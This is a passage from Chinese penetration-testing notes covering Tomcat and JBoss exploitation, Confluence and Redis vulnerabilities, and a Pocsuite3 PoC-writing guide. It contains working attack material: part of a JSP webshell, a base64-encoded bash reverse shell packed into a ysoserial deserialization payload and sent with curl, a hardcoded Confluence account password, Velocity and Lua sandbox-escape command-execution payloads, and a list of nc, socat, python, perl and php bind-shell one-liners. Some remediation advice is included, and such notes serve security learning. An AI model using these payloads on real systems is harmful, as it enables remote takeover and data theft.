                        return super.defineClass(b, 0, b.length);
                    }
                }
             
                public byte[] base64Decode(String str) throws Exception {
                    try {
                        Class clazz = Class.forName("sun.misc.BASE64Decoder");
                        return (byte[]) clazz.getMethod("decodeBuffer", String.class).invoke(clazz.newInstance(), str);
                    } catch (Exception e) {
                        Class clazz = Class.forName("java.util.Base64");
                        Object decoder = clazz.getMethod("getDecoder").invoke(null);
                        return (byte[]) decoder.getClass().getMethod("decode", String.class).invoke(decoder, str);
                    }
                }
            %>
            <%
                String cls = request.getParameter("passwd");
                if (cls != null) {
                    new U(this.getClass().getClassLoader()).g(base64Decode(cls)).newInstance().equals(pageContext);
                }
            %>
        ```

        jsp打包 `jar cvf  shell.war shell.jsp`

        

        

        上传war文件

        

        成功部署war

        

        打开`http://192.168.52.128:8080/shell/shell.jsp`，蚁剑连接

        

*   **修复**

    1.   在系统上以低权限运行Tomcat应用程序。创建一个专门的 Tomcat服务用户，该用户只能拥有一组最小权限（例如不允许远程登录）。

    2.   增加对于本地和基于证书的身份验证，部署账户锁定机制（对于集中式认证，目录服务也要做相应配置）。在CATALINA_HOME/conf/web.xml文件设置锁定机制和时间超时限制。

    3.   以及针对manager-gui/manager-status/manager-script等目录页面设置最小权限访问限制。

    4.   后台管理避免弱口令。

### jBoss漏洞

*   **简介**

    jBoss是一个基于J2EE的开发源代码的应用服务器。  JBoss代码遵循LGPL许可，可以在任何商业应用中免费使用。JBoss是一个管理EJB的容器和服务器，支持EJB1.1、EJB  2.0和EJB3的规范。但JBoss核心服务不包括支持servlet/JSP的WEB容器，一般与Tomcat或Jetty绑定使用。
    
*   **环境搭建**

    一样利用vulhub搭建环境

#### 反序列化漏洞

##### JBoss <=4.x JBossMQ JMS 反序列化漏洞(CVE-2017-7504)

*   **介绍**

    Jboss AS 4.x及之前版本中，JbossMQ实现过程的JMS over HTTP Invoca Layer的HTTPServerLServlet.java文件存在反序列化漏洞，远程攻击者可借助特制的序列化数据利用该漏洞执行任意代码

    影响版本：JBoss 4.x以及之前的所有版本

*   **复现**

    *   一样利用vulhub搭建环境

        在vulhub的`../vulhub/jboss/CVE-2017-7504/`目录下使用`docker-compose up -d`开启容器

    *   访问`http://127.0.0.1:8080/jbossmq-httpil/HTTPServerILServlet`

        

        存在反序列化漏洞

    *   该漏洞为java反序列化，需要java环境

        *   **安装java环境，mvn，与java反序列工具**

            **安装java**

            用curl下载巨慢，建议利用proxychain代理，下载
            
            ```
            cd /opt
            curl http://www.joaomatosf.com/rnp/java_files/jdk-8u20-linux-x64.tar.gz -o jdk-8u20-linux-x64.tar.gz
            tar zxvf jdk-8u20-linux-x64.tar.gz
            rm -rf /usr/bin/java*
            ln -s /opt/jdk1.8.0_20/bin/j* /usr/bin
            javac -version
            java -version
            ```

            java环境搭建完成
            
            
            
            **安装mvn**
            
            ```
            cd /opt
            wget http://mirrors.cnnic.cn/apache/maven/maven-3/3.5.4/binaries/apache-maven-3.5.4-bin.tar.gz#下载
            tar -zxvf apache-maven-3.5.4-bin.tar.gz#解压
            update-alternatives --install /usr/bin/mvn mvn /opt/apache-maven-3.5.4/bin/mvn #配置maven mvn
            vim /etc/profile #配置环境变量
            将
            export MAVEN_HOME=/opt/apache-maven-3.5.4
            export PATH=$MAVEN_HOME/bin:$PATH
            写入
            source /etc/profile #刷新
            mvn -version #查看
            ```
            
            配置完成
            
            
            
            **安装ysoserial反序列化工具**
            
            ```
            git clone https://github.com/frohoff/ysoserial.git#下载
            ```
            
            在存在pom.xml的目录下运行，时间特长，最好开个代理
            
            ```
            mvn clean package -DskipTests
            ```
            
            成功后
            
            
    
    *   **开始复现**
    
        先编写反弹shell的命令
    
        `bash -i >& /dev/tcp/192.168.52.128/1234 0>&1`
    
        并将其base64编码，绕过
    
        `YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjUyLjEyOC8xMjM0IDA+JjE=`
    
        放入bash -c命令中，利用ysoserial自动反序列化
    
        `java -jar ysoserial-0.0.6-SNAPSHOT-all.jar CommonsCollections5 "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjUyLjEyOC8xMjM0IDA+JjE=}|{base64,-d}|{bash,-i}" > poc.ser`
    
        
    
        生成poc.ser
    
        开启nc监听`nc -lvnp 1234`
    
        利用curl发送poc.ser给目标接口，成功反弹shell   `curl http://192.168.52.128:8080/jbossmq-httpil/HTTPServerILServlet --data-binary @poc.ser `
    
        (如果没有反弹，试试换个ip，因为主机可能有多个网卡，不一定和容器在同一网络下)
    
        

##### JBoss 5.x/6.x 反序列化漏洞（CVE-2017-12149）

*   **介绍**

    该漏洞为 Java反序列化错误类型，存在于 Jboss 的 HttpInvoker 组件中的 ReadOnlyAccessFilter 过滤器中没有进行任何安全检查的情况下尝试将来自客户端的数据流进行反序列化，从而导致了漏洞。

*   **复现**

    vulhub开启容器

    访问`invoker/readonly`界面，返回值500；漏洞存在

    

    和上面一样，可以直接利用上面的poc.ser，反弹shell

    

##### JBoss JMXInvokerServlet 反序列化漏洞

*   **介绍**

    跟之前的CVE-2017-12149漏洞相似，都是使用了java的反序列化，该漏洞为 Java反序列化错误类型，存在于 Jboss 的  HttpInvoker 组件中的 ReadOnlyAccessFilter  过滤器中没有进行任何安全检查的情况下尝试将来自客户端的数据流进行反序列化，JBoss在/invoker/JMXInvokerServlet请求中读取了用户传入的对象，从而导致了漏洞

*   **复现**

    vulhub直接搭建环境

    漏洞点在`/invoker/JMXInvokerServlet`处

    访问，回显下载，则漏洞存在

    

    同上直接curl访问，nc监听

    

*   **反序列化漏洞修复**

    1.   升级版本

    2.   临时解决方案：

         *   不需要 http-invoker.sar 组件的用户可直接删除此组件。

         *   添加如下代码至 http-invoker.sar 下 web.xml 的 security-constraint  标签中：<url-pattern>/*</url-pattern>用于对 http invoker 组件进行访问控制。

#### 弱口令&后台war部署

*   **介绍**

    *   Tomcat 支持在后台部署war文件，可以直接将webshell部署到web目录下

    *   登入后台界面可以爆破

    *   **复现**

        简单点，利用cve-2017-7504环境

        访问`jmx-console`,和Tomcat一样是base64加密，可以直接爆破  

        账户密码为 admin  admin
        
        
        
        
        
        
        
        
        进入管理页面，访问`jboss.deployment`下的链接
        
        
        
        找到addURL()函数，填入我们远程的war包(远程可以开启Nginx的环境，利用`docker cp 你的文件路径 容器长ID:docker容器路径`将war放入nginx访问目录下)，可以直接用Tomcat构造的war包，
        
        
        
        回到后台界面，找到`Jboss.web.deplyment`,发现构造的war包(如果没有，多刷新几下)
        
        
        
        访问`/shell`目录存在shell.jsp；但访问不了，应该是有权限设置
        
        


## web开发框架漏洞

### spring

#### spring boot漏洞

> https://github.com/LandGrey/SpringBootVulExploit
>
> https://mp.weixin.qq.com/s/HmGEYRcf1hSVw9Uu9XHGsA

- SpringBoot是由Pivotal团队在2013年开始研发、2014年4月发布第一个版本的全新开源的轻量级框架。它基于Spring4.0设计，不仅继承了Spring框架原有的优秀特性，而且还通过简化配置来进一步简化了Spring应用的整个搭建和开发过程。另外SpringBoot通过集成大量的框架使得     依赖包的版本冲突以及引用的不稳定性等问题得到了很好的解决。
- 如果判断目标网站使用Spring Boot
    - 通过目标web应用程序的favicon.ico图标来识别。Spring Boot 默认的应用图标是一个绿色小图标，如下：
    - 
    - 通过Spring Boot框架的默认报错页面来识别。Spring Boot默认的报错页面如下：
    - 

[springboot漏洞](./web中间件漏洞/springboot漏洞.md)

#### SpringCloud

简单的介绍，Spring Cloud 是一系列框架的集合， 内部包含了许多框架，这些框架互相协作，共同来构建分布式系统。利用这些组件，可以非常方便地构建一个分布式系统。

##### SpringCloud Function SpEL 注入（CVE-2022-22963）

### Laravel

## CMS漏洞

## web应用漏洞

#### Confluence

- Atlassian Confluence Server是澳大利亚Atlassian公司的一套具有企业知识管理功能，并支持用于构建企业WiKi的协同软件的[服务器](https://cloud.tencent.com/product/cvm?from=10680)版本。
    - 

##### CVE-2022-26138—Confluence Server硬编码漏洞

> https://cloud.tencent.com/developer/article/2134974

- 漏洞影响版本

    - ```
        Questions for Confluence app == 2.7.34
        
        Questions for Confluence app == 2.7.35
        
        Questions for Confluence app == 3.0.2
        ```

- 当Confluence Server或Data Center上的**Questions for Confluence app**(一个插件)启用时，它会创建一个名为disabledsystemuser的Confluence用户帐户。内置了一个硬编码用户而且这个用户还能直接登陆 。

- 然后官网上 [Questions for Confluence - Version history | Atlas...](https://marketplace.atlassian.com/apps/1211644/questions-for-confluence/version-history) 下其实是找不到密码的 ，不过 atlassian 官方有对外公开的 maven仓库。所以可以直接去比如 [Index of maven-atlassian-external/com/atlassian/co...](https://packages.atlassian.com/maven-atlassian-external/com/atlassian/confluence/plugins/confluence-questions/3.0.2/) 下下来后自己逆向下就出来了

    - ```
        User: disabledsystemuser
        Username: disabledsystemuser
        密码：disabled1system1user6708
        Email: dontdeletethisuser@email.com
        ```

    - 

##### CVE-2022-26134—Confluence EL Injection via OGNL

- 

##### CVE-2020-4027 Confluence SSTI via Velocity— post-auth RC

**漏洞情况**

- 漏洞条件:  **需要管理员权限** 
- 漏洞触发: custom user macros 业务功能点 
- 漏洞利用:
    -  bypass mitigations 需要绕过沙箱后利用 
    - 漏洞本质 velocity 引擎的问题 
- 梳理信息: 
    - Confluence 后台有可自定义 marco 的应用功能 
    - 基于模板引擎 Velocity 实现 
    - Velocity 的缓解措施可被绕过

漏洞复现

- 登录后台后, 在Manage apps > User Macros > Create a User Macro > Template >Definition of User Macro处插入 payload

- ```
    
    ${req.getServletContext().getAttribute('org.apache.tomcat.InstanceManager').new
    Instance('javax.script.ScriptEngineManager').getEngineByName('js').eval("java.l
    ang.Runtime.getRuntime().exec('calc')")}
    
    ```

- 


- 保存后返回主页 单击 C 键, 创建 page, 引用上一步自定义的 User Macro , 预览即可触发

## OA产品漏洞

> 办公自动化（Office Automation，简称OA），是将计算机、通信等现代化技术运用到传统办公方式，进而形成的一种新型办公方式。办公自动化利用现代化设备和信息化技术，代替办公人员传统的部分手动或重复性业务活动，优质而高效地处理办公事务和业务信息，实现对信息资源的高效利用，进而达到提高生产率、辅助决策的目的，最大限度地提高工作效率和质量、改善工作环境。

## 服务器应用漏洞

### REDIS

#### 什么是Redis

- redis是一个非关系型数据库，是通过键值对存储的，也就是python里面的字典。在部分场合可以对关系数据库起到很好的补充作用。
- Redis运行在内存中但是可以持久化到磁盘，所以在对不同数据集进行高速读写时需要权衡内存，因为数据量不能大于硬件内存。在内存数据库方面的另一个优点是，相比在磁盘上相同的复杂的数据结构，在内存中操作起来非常简单，这样Redis可以做很多内部复杂性很强的事情。同时，在磁盘格式方面他们是紧凑的以追加的方式产生的，因为他们并不需要进行随机访问。

redis基本语法：

- 

#### Redis未授权访问：

漏洞原理：

- Redis默认情况下，会绑定在0.0.0.0:6379(**在redis3.2之后，redis增加了protected-mode，在这个模式下，非绑定IP或者没有配置密码访问时都会报错**)，如果没有进行采用相关的策略，比如添加防火墙规则避免其他非信任来源ip访问等等，这样将会将Redis服务暴露在公网上，如果在没有设置密码认证(默认为空)的情况下，会导致任意用户在可以访问目标服务器的情况下未授权访问Redis以及读取Redis的数据。
- 攻击者在未授权访问Redis的情况下，利用Redis自身的提供的config命令，可以进行写文件操作，攻击者还可以成功将自己的ssh公钥写入目标服务器的/root/.ssh文件的authotrized_keys 文件中，进而可以使用对应私钥直接使用ssh服务器登录目标服务器。
- 漏洞产生要求：
    - redis小于3.2，且使用默认配置
    - redis大于3.2， 但是在配置文件里面关闭了protected-mode，而且绑定了0.0.0.0:6379，这开发有点傻逼啊。
    - 或者我们知道redis密码

漏洞利用：

- info #查看redis的信息和服务器信息，一般渗透到这就行了。

- redis未授权—写入webshell
- redis未授权——写ssh公钥，然后远程登陆服务器
- redis未授权--创建计划任务反弹shell

漏洞修复：

- 使用强密码认证

#### Redis知道密码远程登陆：

- 通过eval命令来执行Lua脚本：

    - 这个脚本跑在沙箱里，正常情况下没法执行命令、读写文件等。 

    - CVE-2022-0543：

    - 这是一个沙箱绕过漏洞，但其原因并不是在redis本身，而来自于Debian发行版。我曾多次提到过，Ubuntu、Debian、CentOS等这些发行版会在原始软件的基础上打一些补丁包，

    - Debian也给redis打了个补丁（图1），增加了一个include。 include的这段代码是在make的时候用shell脚本动态生成的：

        ```
        debian/lua_libs_debian.c:
            echo "// Automatically generated; do not edit." >$@
            echo "luaLoadLib(lua, LUA_LOADLIBNAME, luaopen_package);" >>$@
            set -e; for X in $(LUA_LIBS_DEBIAN_NAMES); do \
                echo "if (luaL_dostring(lua, \"$$X = require('$$X');\"))" >>$@; \
                echo "    serverLog(LL_NOTICE, \"Error loading $$X library\");" >>$@; \
            done
            echo 'luaL_dostring(lua, "module = nil; require = nil;");' >>$@
        
        ```

    - 这里面最重要的就是这句话：luaLoadLib(lua, LUA_LOADLIBNAME, luaopen_package);

    - 我们在原始的redis源码里全局搜索一下这句话（图2），可以发现这句话原本就是存在于源码里的，但是通过条件宏的方式注释掉了，将其注释掉的原因就是“for sandboxing concerns”。 但是Debian的这个补丁却把这句话重新写进去了，而这句话的意思就是向lua的上下文中注入一个package模块。 我们可以利用这个模块，来加载任意Lua库，最终逃逸沙箱，执行任意命令：

        ```
        local io_l = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_io");
        local io = io_l();
        local f = io.popen("id", "r");
        local res = f:read("*a");
        f:close();
        return res
        ```

## 网络设备漏洞

## Pocsuite3 

> https://pocsuite.org/guide/what-is-pocsuite3.html 官方文档
>
> poc收集
>
> https://github.com/luck-ying/Library-POC
>
> https://github.com/hanc00l/some_pocsuite

Pocsuite3 是远程漏洞测试框架。你可以直接使用 Pocsuite3 进行漏洞的验证与利用，也可以基于 Pocsuite3 进行 PoC/Exp 的开发，因为它也是一个 PoC 开发框架；同时，还可以在你的漏洞测试工具里直接集成 Pocsuite3，它也提供标准的调用类。

Pocsuite3 采用 Python3 编写，支持**验证，利用及 shell 三种模式**，你可以指定单个目标或者从文件导入多个目标，使用单个 PoC 或者 PoC 集合进行漏洞的验证或利用。可以使用命令行模式进行调用，也支持类似 Metasploit 的交互模式进行处理，除此之外，还包含了一些基本的如输出结果报告等功能。

```
pip3 install pocsuite3  #安装
pocsuite -h  
```

当用户指定了目标和 PoC 后，框架会将每个目标和 PoC 进行匹配（[笛卡尔积](https://zh.wikipedia.org/wiki/笛卡儿积)），生成一个元素为 `(target, poc_module)` 的队列，然后起一个默认大小为 150（可通过 `--threads` 设置） 的线程池处理这个队列。

在 Pocsuite3 中，PoC 脚本有三种运行模式，分别对应 PoC 脚本中定义的三种方法，可使用命令行参数 `--verify`、`--attack`、`--shell` 决定执行哪种方法，如果不指定，默认是 `--verify`。

### 基本使用


| 命令                                           | 解释                                                         |                                                              |
| ---------------------------------------------- | ------------------------------------------------------------ | ------------------------------------------------------------ |
| **目标**                                       |                                                              |                                                              |
| -u / --url                                     | 加载单个 URL 或 CIDR，支持 IPv4 / IPv6。                     |                                                              |
| -f / --file                                    | 从文件中加载多个 URL 或 CIDR，每行一个。如果遇到以 # 开头的行，会跳过该行。 |                                                              |
| -p / --ports                                   | 为 URL 或 CIDR 添加额外端口，格式：[协议:]端口, 协议是可选的，多个端口间以 , 分隔。 |                                                              |
| -s                                             | 使用-s 参数可以不加载 target 本身的端口，只使用 -p 提供的端口。 |                                                              |
| `--dork-shodan` / `--shodan-token`             | 通过 Shodan API 批量获取测试目标。首次使用会提示输入 [`Shodan API key`](https://account.shodan.io/)，验证可用后会保存到 `$HOME/.pocsuiterc` 文件中，除非 token 过期，下次使用不会重复询问，也可使用 `--shodan-token` 参数提供。单页检索数量为 `100`。 |                                                              |
| `--dork-fofa` / `--fofa-user` / `--fofa-token` | 通过 Fofa API 批量获取测试目标。首次使用会提示输入 `Fofa user email` 和 [`Fofa API Key`](https://fofa.info/userInfo)，验证可用后会保存到 `$HOME/.pocsuiterc` 文件中，除非 token 过期，下次使用不会重复询问，也可使用 `--fofa-user` 和 `--fofa-token` 参数提供。单页检索数量为 `100`。 |                                                              |
| WARNING                                        | 部分搜索引擎检索的数据无协议字段，或是字段不准确。 不同搜索引擎的 dork 语法不一样，确保提供正确的 dork。<br/> 如果 dork 有特殊字符，不方便在终端输入，可以 base64 格式提供，并添加 `--dork-b64` 参数。<br/> 可通过 `--search-type web/host` 限定搜索网站还是主机，部分搜索引擎没有对二者进行区分。 |                                                              |
| **PoC 脚本加载**                               |                                                              |                                                              |
| `-r`                                           | 指定一个或多个 PoC 路径（或目录），如果提供的是目录，框架将遍历目录然后加载所有符合条件的 PoC。多个路径或目录之间用`空格`分隔。 |                                                              |
| -k                                             | 指定关键词（支持正则）对 PoC 进行筛选，如组件名称、CVE 编号等。<br/>如果我们确认了目标组件，就可以用 `-k` 选项找到所以对应的 PoC 对目标进行批量测试。<br/>如果只提供了 `-k` 选项，`-r` 默认为 Pocsuite3 自带的 `pocsuite3/pocs` 目录。 |                                                              |
| **运行控制**                                   |                                                              |                                                              |
| `--threads`                                    | 线程池大小控制，默认为 `Min(150, 目标总数)`。                |                                                              |
| `--pcap`                                       | 在运行 PoC 时使用 `--pcap` 参数，可以将通信流量保存为 pcap 文件。 |                                                              |
| `--verify`                                     | 验证模式，执行 PoC 脚本的 _verify() 方法， 进行漏洞验证。<br/>在 PoC 脚本中，attack 模式和 shell 模式的实现是可选的， 如果不指定运行模式，默认是 verify。 |                                                              |
| --attack                                       | 攻击模式，执行 PoC 脚本的 _attack() 方法，具体表现取决于方法的实现。 |                                                              |
| --shell / --lhost / --lport / --tls            | shell 模式，执行 PoC 脚本的 _shell() 方法，控制台会进入 shell 交互模式执行命令及获取输出 ，所以只能运行单个poc。<br/> Pocsuite3 在 shell 模式会默认监听本机的 6666 端（可通过 --lhost、--lport 修改），编写对应的攻击代码，让目标执行反向连接运行 Pocsuite3 系统 IP 的 6666 端口即可得到一个 shell。<br/>如果要启用 TLS 监听器（如 openssl 的反连 shell），可使用 --tls 参数。 |                                                              |
| **网络控制**                                   |                                                              |                                                              |
| `--proxy` / `--proxy-cred`                     | 全局 HTTP/HTTPS/SOCKS 代理，支持的协议类型有：http、https、socks4、socks5、socks5h。<br>如果代理需要认证，可使用参数 `--proxy-cred name:password` 提供。 | `pocsuite -r poc.py -u https://www.baidu.com --proxy socks5://127.0.0.1:9150` |
| `--timeout`                                    | 全局超时设置，默认为 `10s`。需要注意的是，如果某请求本身设置了超时，则会以请求本身的为准，不会覆盖。 |                                                              |
| `--user-agent`                                 | HTTP 请求的 `User-Agent` 设置，默认为随机。<br>其他网络请求控制选项还有：`--cookie`、`--host`、`--referer`、`--retry`、`--delay`、`--headers`，此处不再一一赘述。 |                                                              |
| **DNSLOG服务**                                 |                                                              |                                                              |
|                                                |                                                              |                                                              |
| **其他**                                       |                                                              |                                                              |
| `-v` / `--ppt`                                 | 控制台日志获取结果，`-v` 用于控制日志等级，`--ppt` 可以将 IP 地址马赛克处理，方便录屏。 |                                                              |
| **自定义的参数**                               |                                                              |                                                              |
| `--optioins`                                   | 查看poc自己定义的参数信息，然后`--参数名`  来输入poc需要的参数。 |                                                              |


### 脚本编写

```cmd
-n / --new   #生成一个poc模板

```

#### POCBase

Pocsuite3 实现了 PoC 基类：`POCBase`，很多共用的代码片段都放到此基类中。我们编写 PoC 时，只需要继承该基类就可。

比较常用的属性和方法如下：

```python

常用属性：

self.url  # 目标 url
self.scheme  # 目标 url 的协议
self.rhost  # 目标 url 的主机名
self.rport  # 目标 url 的端口
self.host_ip  # 本机的 wan 口 ip

常用方法：

self._check()
self.get_option('key')  # 获取自定义命令行参数的值
self.parse_output({})  # 返回结果的方法，参数是一个字典，建议统一使用该方法返回结果


```

`self._check()` 方法代码如下，会进行端口开放检查、http/https 协议自动纠正，首页关键词 check，关键词蜜罐检查等功能。可以一定程度避免将 `Payload` 发送到蜜罐，减少误报。

#### 编写步骤

- 创建py文件
- 从 `pocsuite3.api` 导入待用的类和方法，编写 PoC 实现类 `DemoPOC`，继承自 `PoCBase` 类。
- 填写poc信息
- 编写三种模式
- 在类的外部调用 `register_poc()` 方法注册 PoC 类

```python
class DemoPOC(POCBase):
    #poc信息,
    vulID = '99335'  # Seebug 漏洞收录 ID，如果没有则为 0
    version = '1'  # PoC 的版本，默认为 1
    "........................................................................"
    
    #三种模式编写
    def _verify(self):
      pass
	def _attack(self):
        pass
    def _shell(self):
        pass

# 注册 DemoPOC 类
register_poc(DemoPOC)

```

#### 基本poc信息

- **这些字段都不是必须的，也可留空**
- 从 1.9.8 版本开始，基类 POCBase 为 PoC 的所有属性设置了默认值，写 PoC 时可以不写任何属性字段，简化 PoC 的开发。

```python
vulID = '99335'  # Seebug 漏洞收录 ID，如果没有则为 0
version = '1'  # PoC 的版本，默认为 1
author = 'seebug'  # PoC 的作者
vulDate = '2021-8-18'  # 漏洞公开日期 (%Y-%m-%d)
createDate = '2021-8-20'  # PoC 编写日期 (%Y-%m-%d)
updateDate = '2021-8-20'  # PoC 更新日期 (%Y-%m-%d)
references = ['https://www.seebug.org/vuldb/ssvid-99335']  # 漏洞来源地址，0day 不用写
name = 'Fortinet FortiWeb 授权命令执行 (CVE-2021-22123)'  # PoC 名称，建议命令方式：<厂商> <组件> <版本> <漏洞类型> <cve编号>
appPowerLink = 'https://www.fortinet.com'  # 漏洞厂商主页地址
appName = 'FortiWeb'  # 漏洞应用名称
appVersion = '<=6.4.0'  # 漏洞影响版本
vulType = 'Code Execution'  # 漏洞类型，参见漏洞类型规范表
desc = '/api/v2.0/user/remoteserver.saml接口的name参数存在命令注入'  # 漏洞简要描述
samples = ['http://192.168.1.1']  # 测试样列，就是用 PoC 测试成功的目标
install_requires = ['BeautifulSoup4:bs4']  # PoC 第三方模块依赖，请尽量不要使用第三方模块，必要时请参考《PoC第三方模块依赖说明》填写
pocDesc = ''' poc的用法描述 '''
category = POC_CATEGORY.EXPLOITS.WEBAPP  # PoC 的分类
protocol = POC_CATEGORY.PROTOCOL.HTTP  # PoC 的默认协议，方便对 url 格式化
protocol_default_port = 8443  # 目标的默认端口，当提供的目标不包含端口的时候，方便对 url 格式化
dork = {'zoomeye': 'deviceState.admin.hostname'}  # 搜索 dork，如果运行 PoC 时不提供目标且该字段不为空，将会调用插件从搜索引擎获取目标。
suricata_request = '''http.uri; content: "/api/v2.0/user/remoteserver.saml";'''  # 请求流量 suricata 规则
suricata_response = ''  # 响应流量 suricata 规则

```

#### 三种模式

三种模式决定了我们需要写三个函数完成不同功能。

##### **编写验证模式**

- 验证漏洞存在。验证方式取决于具体的漏洞类型，比如检查目标的软件版本、判断某个关键 API 的状态码或返回、读取特定文件、执行一个命令并获取结果，结合 DNSLog 带外回显等。该模式用于批量漏洞排查，一般不需要用户提供额外参数 ，且应尽可能对目标无害。

- ```python
    def _verify(self, verify=True):
        result = {}
        ...
    
        return self.parse_output(result)
    
    # PoCBase
    def parse_output(self, result):
        output = Output(self)
        if result:
            output.success(result)
        else:
            output.fail()
        return output
    ```

- 通过 `self.parse_output(result)` 返回结果，result 为字典类型。**如果 result 不为空，则会返回成功信息（即 PoC 验证成功），否则返回失败。在写 PoC 时，确保验证成功后再给 result 赋值并返回即可。**

- output 为 Pocsuite3 标准输出 API，如果要输出调用成功信息则使用 `output.success(result)`，如果要输出调用失败则 `output.fail()`，系统自动捕获异常，不需要 PoC 里处理捕获，如果 PoC 里使用 `try...except` 来捕获异常，可通过`output.error('Error Message')` 来传递异常内容，

- **建议直接使用 PoCBase 中的 `parse_output()` 通用结果处理函数对 `_verify` 和 `_attack` 结果进行返回。**

##### result返回规范

- 只要result里面保存了数据，就代表有漏洞了，所以result里面数据保存规范点。

- 比如

    - ```
        result['ShellInfo'] = {}
        result['ShellInfo']['URL'] = 'xxxxx'
        ```

- **extra 字段 ：自己设置字段**

    - extra 字段为通用结果字段的补充字段，如果需要返回的内容中不属于通用结果字段，那么可以使用 extra 字段进行赋值。extra 字段为 dict 格式，可自定义 key 进行赋值，如：

    - ```python
        result['extra'] = {}
        result['extra']['field'] = 'aa'
        ```

- **通用字段说明** （**以下只是字段含义示例，不是标准的 JSON 格式**）

    - ```json
        result：[
            {  name: 'DBInfo'，       value：'数据库内容' }，
                {  name: 'Username'，      value: '管理员用户名'},
                {  name: 'Password'，      value：'管理员密码' }，
                {  name: 'Salt'，          value: '加密盐值'},
                {  name: 'Uid'，           value: '用户ID'},
                {  name: 'Groupid'，       value: '用户组ID'},
        
        
            {  name: 'ShellInfo'，     value: 'Webshell信息'},
                {  name: 'URL'，           value: 'Webshell地址'},
                {  name: 'Content'，       value: 'Webshell内容'},
        
        
            {  name: 'FileInfo'，      value: '文件信息'},
                {  name: 'Filename'，      value: '文件名称'},
                {  name: 'Content'，       value: '文件内容'},
        
        
            {  name: 'XSSInfo'，       value: '跨站脚本信息'},
                {  name: 'URL'，           value: '验证URL'},
                {  name: 'Payload'，       value: '验证Payload'},
        
        
            {  name: 'AdminInfo'，     value: '管理员信息'},
                {  name: 'Uid'，           value: '管理员ID'},
                {  name: 'Username'，      value: '管理员用户名'},
                {  name: 'Password'，      value: '管理员密码'},
        
        
            {  name: 'Database'，      value：'数据库信息' }，
                {  name: 'Hostname'，      value: '数据库主机名'},
                {  name: 'Username'，      value：'数据库用户名' }，
                {  name: 'Password'，      value: '数据库密码'},
                {  name: 'DBname'，        value: '数据库名'},
        
        
            {  name: 'VerifyInfo'，    value: '验证信息'},
                {  name: 'Target'，        value: '验证host:port'},
                {  name: 'URL'，           value: '验证URL'},
                {  name: 'Postdata'，      value: '验证POST数据'},
                {  name: 'Path'，          value: '网站绝对路径'},
        
        
            {  name: 'SiteAttr'，      value: '网站服务器信息'},
            {  name: 'Process'，       value: '服务器进程'}
        
        ]
        
        ```

##### attack模式

- 攻击模式，可实现某种特定需求。比如获取特定数据、写入一句话并返回 shell 地址、从命令行参数获取命令并执行、从命令行参数获取文件路径并返回文件内容等。
- 定义它的方法与验证模式类似。
- 如果该 PoC 没有攻击模式，可以在 `_attack()` 函数下加入一句 `return self._verify()` 这样你就无需再写 `_attack()` 函数了。

##### shell模式

- 获取交互式 shell。Pocsuite3 在 shell 模式会默认监听 `6666` 端口，编写对应的攻击代码，让目标执行反向连接运行 Pocsuite3 系统 IP 的 `6666` 端口即可得到一个 shell。

    - ```python
        def _shell(self):
            cmd = REVERSE_PAYLOAD.BASH.format(get_listener_ip(), get_listener_port()) 
            # payload攻击代码 execute(cmd) ,自带了很多正向反向payload
        ```

- shell 模式下，只能运行单个 PoC 脚本，控制台会进入 shell 交互模式执行命令及输出。

- 从 ***1.8.5*** 版本开始，Pocsuite3 支持 bind shell。shell 模式和原来的操作方式一致，也需要指定监听 ip 和端口，监听 ip 可以是本地任意 ip，也可以是远程服务器 ip。

    - bind shell 的实现位于 [`./pocsuite3/modules/listener/bind_tcp.py`](https://github.com/knownsec/pocsuite3/blob/master/pocsuite3/modules/listener/bind_tcp.py)，原理是实现了一个中间层，一端连接漏洞目标的 bind shell（如 telnet 服务、nc 启动的 shell、php 一句话等），另一端连接用户指定的监听 ip 和端口，如此一来，shell 模式可以不受网络环境限制，支持在内网使用。

    - 目前支持三种 bind shell，使用场景如下：

        ```
        bind_shell`：通用方法，在 shell 模式中直接调用 `return bind_shell(self, rce_func)` 即可，非常便捷。
        针对有回显的漏洞，在 PoC 中实现一个 rce（函数名可自定义）方法，函数参数为命令输入，输出为命令输出。如果漏洞无回显，也可以通过写一句话转为有回显的。值得一提的是，用户也可以在 rce 方法中实现流量的加解密以逃避 IDS 检测。
        
        bind_tcp_shell`：对 tcp 绑定型 shell 的原生支持，在 shell 模式中 `return bind_tcp_shell(bind_shell_ip, bind_shell_port)
        
        bind_telnet_shell`：对 telnet 服务的原生支持，在 shell 模式中 `return bind_telnet_shell(ip, port, username, password)
        ```

    - 简单举几个例子，telnet 弱口令 shell 模式实现，实际只需要一行代码：

        - ```python
            def _shell(self):
                return bind_telnet_shell(ip, port, 'iot', '***')
            
            ```

    - php shell 模式，在目标写入一句话，然后在 `_rce` 方法中实现了流量的 AES 加解密：
        - 

- Pocsuite3 自带的 Payload 如下：

    - ```python
        In [1]: from pocsuite3.api import BIND_PAYLOAD, REVERSE_PAYLOAD
        
        In [2]: BIND_PAYLOAD.__dict__
        Out[2]:
        mappingproxy({'__module__': 'pocsuite3.modules.listener.bind_tcp',
                      'NODE': 'node -e \'sh=child_process.spawn("/bin/sh");net.createServer(function(client){{client.pipe(sh.stdin);sh.stdout.pipe(client);sh.stderr.pipe(client);}}).listen("{0}")\'',
                      'NC': 'nc -l -p {0} -e /bin/sh',
                      'SOCAT': 'socat TCP-LISTEN:{0},reuseaddr,fork EXEC:/bin/sh,pty,stderr,setsid,sigint,sane',
                      'PYTHON': 'python -c \'import socket,os,subprocess;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.bind(("0.0.0.0",{0}));s.listen(5);c,a=s.accept();os.dup2(c.fileno(),0);os.dup2(c.fileno(),1);os.dup2(c.fileno(),2);p=subprocess.call(["/bin/sh","-i"])\'',
                      'PERL': 'perl -e \'use Socket;$p={0};socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));bind(S,sockaddr_in($p, INADDR_ANY));listen(S,SOMAXCONN);for(;$p=accept(C,S);close C){{open(STDIN,">&C");open(STDOUT,">&C");open(STDERR,">&C");exec("/bin/bash -i");}};\'',
                      'PHP': 'php -r \'$s=socket_create(AF_INET,SOCK_STREAM,SOL_TCP);socket_bind($s,"0.0.0.0",{0});socket_listen($s,1);$cl=socket_accept($s);while(1){{if(!socket_write($cl,"$ ",2))exit;$in=socket_read($cl,100);$cmd=popen("$in","r");while(!feof($cmd)){{$m=fgetc($cmd);socket_write($cl,$m,strlen($m));}}}}\'',
